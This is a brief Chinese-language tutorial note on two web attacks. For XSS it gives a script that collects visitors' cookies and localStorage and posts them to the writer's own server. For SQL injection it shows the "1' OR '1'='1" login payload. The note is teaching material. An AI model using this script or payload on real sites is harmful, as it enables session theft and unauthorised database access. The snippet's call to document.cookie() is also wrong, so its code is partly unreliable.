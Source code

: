 #Web安全機制

## #XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](/assets/螢幕快照 2017-02-02 下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie();
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:
```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```


## #SQL Injection



```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";

```
將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A



